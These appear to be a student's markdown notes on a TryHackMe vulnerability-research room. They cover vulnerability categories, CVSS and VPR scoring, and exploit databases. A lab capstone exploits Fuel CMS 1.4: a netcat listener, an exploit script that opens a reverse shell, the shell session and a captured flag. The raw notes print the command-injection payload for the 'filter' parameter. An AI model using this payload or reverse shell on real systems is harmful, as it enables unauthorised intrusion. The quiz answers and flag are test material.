


# Vulnerability Research 
Understand the flaws of an application and apply your researching skills on some vulnerabilty databases. 

## Vulnerability 101 
An enormous part of penetration testing is knowing the skills and resources for whatever situation you face. This room is going to introduce you to some resources that are essential when researching vulnerabilities, specifically, you are going to be introduced to:

- What vulnerabilities are
- Why they're worthy of learning about
- How are vulnerabilities rated
- Databases for vulnerability research
- A showcase of how vulnerability research is used on ACKme's engagement

### INTRO TO VULNERABILITIES

A vulnerability in cybersecurity is defined as a weakness or flaw in the design, implementation or behaviours of a system or application. An attacker can exploit these weaknesses to gain access to unauthorised information or perform unauthorised actions. The term “vulnerability” has many definitions by cybersecurity bodies. However, there is minimal variation between them all.

For example, NIST defines a vulnerability as “weakness in an information system, system security procedures, internal controls, or implementation that could be exploited or triggered by a threat source”.

Vulnerabilities can originate from many factors, including a poor design of an application or an oversight of the intended actions from a user.

We will come on to discuss the various types of vulnerabilities in a later room. However, for now, we should know that there are arguably five main categories of vulnerabilities:

|        Vulnerability        |                                                                                                                     Description                                                                                                                     |
|:---------------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|       Operating System      |                                                                  These types of vulnerabilities are found within Operating Systems (OSs) and often result in privilege escalation.                                                                  |
|   (Mis)Configuration-based  |                                                      These types of vulnerability stem from an incorrectly configured application or service. For example, a website exposing customer details.                                                     |
| Weak or Default Credentials | Applications and services that have an element of authentication will come with default credentials when installed. For example, an administrator dashboard may have the username and password of "admin". These are easy to guess by an attacker.  |
|      Application Logic      |                            These vulnerabilities are a result of poorly designed applications. For example, poorly implemented authentication mechanisms that may result in an attacker being able to impersonate a user.                           |
|         Human-Factor        |                                    Human-Factor vulnerabilities are vulnerabilities that leverage human behaviour. For example, phishing emails are designed to trick humans into believing they are legitimate.                                    |

An attacker has been able to upgrade the permissions of their system account from "user" to "administrator". What type of vulnerability is this?
Operating System

You manage to bypass a login panel using cookies to authenticate. What type of vulnerability is this?
Application Logic

### SCORING VULNERABILITIES ( CVSS & VPR )

**Common Vulnerability Scoring System**

First introduced in 2005, the Common Vulnerability Scoring System (or CVSS) is a very popular framework for vulnerability scoring and has three major iterations. As it stands, the current version is CVSSv3.1 (with version 4.0 currently in draft) a score is essentially determined by some of the following factors (but many more):
1. How easy is it to exploit the vulnerability?
2. Do exploits exist for this?
3. How does this vulnerability interfere with the CIA triad?

https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator 

|  Rating  |    Score   |
|:--------:|:----------:|
|   None   |      0     |
|    Low   |  0.1 - 3.9 |
|  Medium  |  4.0 - 6.9 |
|   High   |  7.0 - 8.9 |
| Critical | 9.0 - 10.0 | 

However, CVSS is not a magic bullet. Let's analyse some of the advantages and disadvantages of CVSS in the table below:

|                                Advantages of CVSS                                |                                                                    Disadvantages of CVSS                                                                   |
|:--------------------------------------------------------------------------------:|:----------------------------------------------------------------------------------------------------------------------------------------------------------:|
|                       CVSS has been around for a long time.                      |                            CVSS was never designed to help prioritise vulnerabilities, instead, just assign a value of severity.                           |
|                         CVSS is popular in organisations.                        | CVSS heavily assesses vulnerabilities on an exploit being available. However, only 20% of all vulnerabilities have an exploit available (Tenable., 2020) . |
| CVSS is a free framework to adopt and recommended by organisations such as NIST. |                Vulnerabilities rarely change scoring after assessment despite the fact that new developments such as exploits may be found.                |

**Vulnerability Priority Rating (VPR)**

The VPR framework is a much more modern framework in vulnerability management - developed by Tenable, an industry solutions provider for vulnerability management. This framework is considered to be risk-driven; meaning that vulnerabilities are given a score with a heavy focus on the risk a vulnerability poses to the organisation itself, rather than factors such as impact (like with CVSS).
Unlike CVSS, VPR scoring takes into account the relevancy of a vulnerability. For example, no risk is considered regarding a vulnerability if that vulnerability does not apply to the organisation (i.e. they do not use the software that is vulnerable). VPR is also considerably dynamic in its scoring, where the risk that a vulnerability may pose can change almost daily as it ages.
VPR uses a similar scoring range as CVSS, which I have also put into the table below. However, two notable differences are that VPR does not have a "None/Informational" category, and because VPR uses a different scoring method, the same vulnerability will have a different score using VPR than when using CVSS.

|  Rating  |    Score   |
|:--------:|:----------:|
|    Low   |  0.0 - 3.9 |
|  Medium  |  4.0 - 6.9 |
|   High   |  7.0 - 8.9 |
| Critical | 9.0 - 10.0 |

Let's recap some of the advantages and disadvantages of using the VPR framework in the table below.
|                                                            Advantages of VPR                                                            |                                                                                                  Disadvantages of VPR                                                                                                  |
|:---------------------------------------------------------------------------------------------------------------------------------------:|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|                                              VPR is a modern framework that is real-world.                                              |                                                                       VPR is not open-source like some other vulnerability management frameworks.                                                                      |
|                                          VPR considers over 150 factors when calculating risk.                                          |                                                                                 VPR can only be adopted apart of a commercial platform.                                                                                |
|                        VPR is risk-driven and used by organisations to help prioritise patching vulnerabilities.                        | VPR does not consider the CIA triad to the extent that CVSS does; meaning that risk to the confidentiality, integrity and availability of data does not play a large factor in scoring vulnerabilities when using VPR. |
| Scorings are not final and are very dynamic, meaning the priority a vulnerability should be given can change as the vulnerability ages. |                                                                                                Intentionally left blank.                                                                                               |

VULNERABILITY DATABASES 

1. NVD (National Vulnerability Database)

2. Exploit-DB

Before we dive into these two resources, let's ensure that our understanding of some fundamental key terms is on the same page:

|          Term          |                                                        Definition                                                        |
|:----------------------:|:------------------------------------------------------------------------------------------------------------------------:|
|      Vulnerability     | A vulnerability is defined as a weakness or flaw in the design, implementation or behaviours of a system or application. |
|         Exploit        |     An exploit is something such as an action or behaviour that utilises a vulnerability on a system or application.     |
| Proof of Concept (PoC) |                 A PoC is a technique or tool that often demonstrates the exploitation of a vulnerability.                |


NVD – National Vulnerability Database
The National Vulnerability Database is a website that lists all publically categorised vulnerabilities. In cybersecurity, vulnerabilities are classified under “Common Vulnerabilities and Exposures” (Or CVE for short).

These CVEs have the formatting of CVE-YEAR-IDNUMBER. For example, the vulnerability that the famous malware WannaCry used was CVE-2017-0144.

NVD allows you to see all the CVEs that have been confirmed, using filters by category and month of submission. For example, it is three days into August; there have already been 223 new CVEs submitted to this database.

Exploit-DB
Exploit-DB is a resource that we, as hackers, will find much more helpful during an assessment. Exploit-DB retains exploits for software and applications stored under the name, author and version of the software or application.

We can use Exploit-DB to look for snippets of code (known as Proof of Concepts) that are used to exploit a specific vulnerability. 


## EXPLOIT VULNERABILITIES 

There is a myriad of tools and services available in cybersecurity for vulnerability scanning. Ranging from being commercial (and footing a heavy bill) to open-source and free, vulnerability scanners are convenient means of quickly canvassing an application for flaws.

For example, the vulnerability scanner Nessus has both a free (community) edition and commercial. The commercial version costing thousands of pounds for a year's license will likely be used in organisations providing penetration testing services or audits. If you’d like to know more about Nessus, check out the TryHackMe room dedicated to it.
> https://tryhackme.com/room/rpnessusredux

|                                                  Advantage                                                  |                                                                Disadvantage                                                               |
|:-----------------------------------------------------------------------------------------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------:|
|          Automated scans are easy to repeat, and the results can be shared within a team with ease.         |                                              People can often become reliant on these tools.                                              |
|                   These scanners are quick and can test numerous applications efficiently.                  | They are extremely "loud" and produce a lot of traffic and logging. This is not good if you are trying to bypass firewalls and the likes. |
|                                         Open-source solutions exist.                                        |                       Open-source solutions are often basic and require expensive licenses to have useful features.                       |
| Automated scanners cover a wide range of different vulnerabilities that may be hard to manually search for. |                                       They often do not find every vulnerability on an application.                                       |

Frameworks such as Metasploit often have vulnerability scanners for some modules; this is something you will come onto learn about in a further module in this pathway.

Manual scanning for vulnerabilities is often the weapon of choice by a penetration tester when testing individual applications or programs. In fact, manual scanning will involve searching for the same vulnerabilities and uses similar techniques as automated scanning.

Ultimately, both techniques involve testing an application or program for vulnerabilities. These vulnerabilities include:

|        Vulnerability       |                                                                                           Description                                                                                          |
|:--------------------------:|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| Security Misconfigurations |      Security misconfigurations involve vulnerabilities that are due to developer oversight. For example, exposing server information in messages between the application and an attacker.     |
|    Broken Access Control   |                            This vulnerability occurs when an attacker is able to access parts of an application that they are not supposed to be able to otherwise.                            |
|  Insecure Deserialization  |         This is the insecure processing of data that is sent across an application. An attacker may be able to pass malicious code to the application, where it will then be executed.         |
|          Injection         | An Injection vulnerability exists when an attacker is able to input malicious data into an application. This is due to the failure of not ensuring (known as sanitising) input is not harmful. |

> https://tryhackme.com/room/owasptop10 


### Finding Manual Exploits 
**Rapid7** 
Much like other services such as Exploit DB and NVE, Rapid7 is a vulnerability research database. The only difference being that this database also acts as an exploit database. Using this service, you can filter by type of vulnerability (I.e. application and operating system).


**GitHub**  
GitHub is a popular web service designed for software developers. The site is used to host and share the source code of applications to allow a collaborative effort. However, security researchers have taken to this platform because of the aforementioned reasons as well. Security researchers store & share PoC’s (Proof of Concept) on GitHub, turning it into an exploit database in this context.

GitHub is extremely useful in finding rare or fresh exploits because anyone can create an account and upload – there is no formal verification process like there is with alternative exploit databases. With that said, there is also a downside in that PoC’s may not work where little to no support will be provided.


GitHub uses a tagging and keyword system, meaning that we can search GitHub by keywords such as “PoC”, “vulnerability”, and many more. At the time of writing, there are 9,682 repositories with the keyword “cve”. We are also able to filter the results by programming language.

**Searchsploit**  
Searchsploit is a tool that is available on popular pentesting distributions such as Kali Linux. It is also available on the TryHackMe AttackBox. This tool is an offline copy of Exploit-DB, containing copies of exploits on your system.

You are able to search searchsploit by application name and/or vulnerability type. For example, in the snippet below, we are searching searchsploit for exploits relating to Wordpress that we can use – no downloading necessary!


### EXAMPLE OF MANUAL EXPLOITATION 

searchsploit "Online Book Store v1.0"
vi /opt/searchsploit/files_exploits.csv 
python /opt/searchsploit/exploits/php/webapps/47887.py 
python /opt/searchsploit/exploits/php/webapps/47887.py http://10.10.23.160

## VULNERABILITY CAPSTONE 

First i went to the website at 10.10.71.212 to check the software version 
> Fuel CMS 1.4

Then tried googling
> Fuel CMS 1.4 exploit 

useful sites :
- cvedetails.com 
- exploitdb.com 


Then I also tried `searchsploit` for convinience 

```
root@ip-10-10-50-19:~# searchsploit "Fuel CMS 1.4"
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                 | php/webapps/48741.txt
fuelCMS 1.4.1 - Remote Code Execution                                | linux/webapps/47138.py
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


**Terminal 1**
Create a listener 
```
nc -lvnp 8080
```


**Terminal 2**
working exploit was located `/usr/share/exploits/vulnerabilitiescapstone`
I tried using the exploit i used on `searchsploit` but it was not working 

```
root@ip-10-10-50-19:~/task# python3 exploit.py 10.10.71.212

 ______         _ _____ ___  ___ _____
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--.
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/
Tested on 1.4
Created by Ac1d

	Menu

exit     -	Exit app
shell_me -	Get a reverse shell (netcat)
help     -	Show this help

fuelCMS$ shell_me
Enter your attacking machine IP:PORT $ 10.10.50.19:8080

Hope you had your listener ready!!
```


Terminal 1 After Executing the exploit File
```
nc -lvnp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 10.10.71.212 40466 received!
/bin/sh: 0: can't access tty; job control turned off
$ pwd; whoami
/var/www/html/fuelcms
www-data
$ cd /home/ubuntu
$ ls -altr
total 40
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile
-rw-r--r-- 1 ubuntu ubuntu 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
drwxr-xr-x 3 root   root   4096 Sep  3  2021 ..
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .ssh
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .cache
-rw-r--r-- 1 ubuntu ubuntu    0 Sep  3  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 ubuntu ubuntu   23 Sep  3  2021 flag.txt
drwxrwxr-x 3 ubuntu ubuntu 4096 Sep  3  2021 .local
lrwxrwxrwx 1 ubuntu ubuntu    9 Sep  3  2021 .bash_history -> /dev/null
-rw------- 1 ubuntu ubuntu  178 Sep  3  2021 .Xauthority
drwxr-xr-x 5 ubuntu ubuntu 4096 Sep  3  2021 .
$ cat flag.txt
THM{ACKME_BLOG_HACKED}

```

### RAW NOTES

**DECODING**: URL ENCODE
```
%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27      CMD       %27%29%2b%27 # from searchsploit 
"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ CMD +"%27)%2B%27" # https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py 
```

**OUTPUT**  
```
'+pi(print($a='system'))+$a('      CMD       ')+'
"http://{IP}/fuel/pages/select/?filter='+pi(print($a='system'))+$a('"  CMD  "')+'"
```

From the exploit written they are exploiting he `http://{IP}/fuel/pages/select/?filter=` page and filter parameter with comand and injection vulnerability 


**STUDY SEARCH THIS TERMS**
- FIFO
- TTY 
